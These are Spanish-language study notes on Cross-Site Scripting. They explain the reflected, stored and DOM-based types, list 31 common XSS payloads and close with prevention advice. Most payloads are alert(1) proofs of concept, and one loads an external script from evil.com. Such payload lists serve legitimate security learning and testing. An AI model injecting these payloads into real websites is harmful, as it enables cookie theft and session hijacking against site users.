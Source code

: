 # Apuntes sobre XSS (Cross-Site Scripting)

## ¿Qué es XSS?

Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad que permite a los atacantes inyectar scripts maliciosos en páginas web vistas por otros usuarios. Los scripts inyectados pueden robar cookies, secuestrar sesiones, redirigir a los usuarios a sitios maliciosos, entre otros.

## Tipos de XSS

1. **XSS Reflejado**: El script malicioso es reflejado de inmediato por el servidor. Generalmente se explota a través de enlaces manipulados.
  
2. **XSS Almacenado**: El script malicioso se almacena en el servidor y se sirve a otros usuarios. Este tipo es más peligroso, ya que puede afectar a múltiples usuarios.
  
3. **XSS DOM-based**: El ataque se produce cuando el navegador procesa la entrada del usuario sin una adecuada validación.

## Payloads Comunes

Aquí hay una lista de algunos payloads utilizados comúnmente para realizar ataques XSS:

1. `<script>alert(1)</script>`
2. `"><script>alert(1)</script>`
3. `<svg onload=alert(1)>`
4. `<iframe src="javascript:alert(1)"></iframe>`
5. `<IMG SRC="javascript:alert(1)">`
6. `"><img src=x onerror=alert(1)>`
7. `<svg><script>alert(1)</script>`
8. `<svg/onload=alert(1)>`
9. `<math><maction xlink:href="javascript:alert(1)">X`
10. `<body onload=alert(1)>`
11. `"><svg/onload=alert(1)>`
12. `<details open ontoggle=alert(1)>`
13. `<marquee onstart=alert(1)>`
14. `<video src="javascript:alert(1)"></video>`
15. `<object data="javascript:alert(1)"></object>`
16. `<iframe srcdoc="<script>alert(1)</script>"></iframe>`
17. `"><input autofocus onfocus=alert(1)>`
18. `<embed src="data:text/html,<script>alert(1)</script>">`
19. `<form><button formaction=javascript:alert(1)>CLICK</button></form>`
20. `<isindex action="javascript:alert(1)">`
21. `<textarea autofocus onfocus=alert(1)>`
22. `<script src="https://evil.com/xss.js"></script>`
23. `<iframe src="data:text/html,<script>alert(1)"></script>">`
24. `<math href="javascript:alert(1)">X`
25. `"><input type="text" value="x" onfocus=alert(1)>`
26. `<svg><desc><![CDATA[</desc><script>alert(1)</script>]]>`
27. `<style>*{xss:expression(alert(1))}</style>`
28. `<base href="javascript:alert(1)//">`
29. `"><link rel="stylesheet" href="javascript:alert(1)">`
30. `"><meta http-equiv="refresh" content="0;url=javascript:alert(1)">`
31. `<svg/onload=alert(String.fromCharCode(88,83,83))>`

## Prevención de XSS

1. **Validación de Entrada**: Validar y sanitizar todos los datos de entrada del usuario.
  
2. **Content Security Policy (CSP)**: Implementar CSP para mitigar los efectos de los scripts maliciosos.
  
3. **Escapado de Salida**: Escapar correctamente los datos antes de renderizarlos en HTML.

## Conclusión

XSS es una vulnerabilidad grave que puede ser explotada de diversas maneras. La prevención requiere una combinación de buenas prácticas en el manejo de datos de entrada y salida.

**¡Mantente seguro!**
